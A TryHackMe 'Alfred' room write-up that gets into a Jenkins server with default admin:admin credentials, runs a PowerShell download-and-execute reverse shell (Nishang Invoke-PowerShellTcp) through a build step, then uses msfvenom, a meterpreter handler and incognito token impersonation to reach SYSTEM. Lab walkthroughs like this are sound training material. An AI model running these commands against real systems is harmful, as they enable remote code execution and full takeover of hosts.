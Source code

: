 [<- home](/)

# Alfred [TryHackMe]

<sub>_This is a raw write-up. It accounts for every step taken throughout the challenge, whether or not it was successful. So, expect a lot of rabbitholes and frustration. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

## _Metasploit Exploitation_
<sub>This is a TryHackMe walkthrough room and it details metasploit steps for exploitation, so we will have to follow it.</sub>

Let's define a host machine's IP in a variable:

```
h0st=10.10.10.10
```

Let's define the target machine's IP address in a variable:

```
targ3t=10.10.163.191
```

Let's see what `nmap` can show us about this target. It doesn't respond to ping, so we are adding a `-Pn` flag to it:

```
nmap -A -Pn $targ3t -oN general.scan -vv
```

On port 80 we have what looks like a static site. On port 8080, there seems to be a login form. And 3389 seems like an RDP. Let's start with the `gobuster` and closely follow it with a `feroxbuster`:

```
gobuster dir -u http://$targ3t -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
feroxbuster -u http://targ3t -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o ferox.scan
```

`feroxbuster` didn't find much, I'm wondering if gobuster will find anything, but before then I'll fill in the answer on THM:

- There are only **3** tcp ports open;

Now I think we can try and brute force the login form at port `8080` with `hydra` using `alfred` as username. let's try it:

```
hydra -l alfred -P /usr/share/wordlists/rockyou.txt $targ3t -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=Invalid" -vV
```

It didn't find anything, and then I noticed on the room's walkthrough page, the question asks for `*****:*****` format user password, which means `alfred` cannot be the username. So I googled what default credentials for Jenkins are and apparently it's `admin:admin`:

- The username and password for the login panel are **admin:admin**

Now that we logged in, the walkthrough tells us to find a way on this system to execute commands on the server. On the dashboard, under the project options, if we click **configure** it will take us to a build section that executes code.

First, let's download `Invole-PowerShellTcp.ps1` script:

```
wget https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1
```

Then let's start a python server:

```
python -m http.server 8123
```

After that let's copy the PS command in the walkthrough and insert it in the configuration input:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

Before we save this, let's start netcat in another shell:

```
nc -lvnp 9999
```

After this let's go back to the project options and press **Build Now**. In a few seconds we will receive a shell on netcat!

This is a PS Shell so the following commands apply to get the flag:

```
Set-Location -Path C:\Users\bruce\Desktop
Get-ChildItem
Get-Content user.txt
```

Next, the walkthrough details a way to use `metasploit` to change shell from PS to `meterpreter`:

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
```

Now we need to upload this as a reverse shell and then use `msfconsole` to convert it to meterpreter. First we need to start the python server again:

```
python -m http.server 8000
```

Let's answer the room's question while we're at it:

- The final size of the generated exe payload is **73802** bytes

Now let's use modified `PowerShell` command in the Jenkins project:

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"
```

This command has to be above the previous `PowerShell` command that we have injected, it will not work otherwise.

Press `save` but don't `build now` yet. 

Now let's set up everything in metasploit console:

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <ATTACKER IP>
set LPORT <ATTACKER PORT>
run
```

Now let's go back to Jenkins project and press **Build Now**.

And we have received a meterpreter shell:

```
meterpreter >
```

Now back in the first shell (the one we obtained with `netcat`) see what privileges are available:

```
whoami /priv
```

As walkthrough denotes we have `SeDebugPrivilege` and `SeImpersonatePrivilege` enabled. So we are going to have to exploit them with meterpreter:

```
load incognito
```

Let's see available tokens in `meterpreter`'s `incognito` module:

```
list_tokens -g
```

`BUILTIN\Administrators` token is available, let's use it:

```
impersonate_token "BUILTIN\Administrators"
getuid
```

- `getuid` command returns `NT AUTHORITY\SYSTEM`.


Let's try to migrate to `services.exe` process as the walkthrough indicates:

```
ps
migrate 668
```

Let's read the root file now located at: `C:\Windows\System32\config`

```
cat c:/Windows/System32/config/root.txt
```

We got a root flag! 
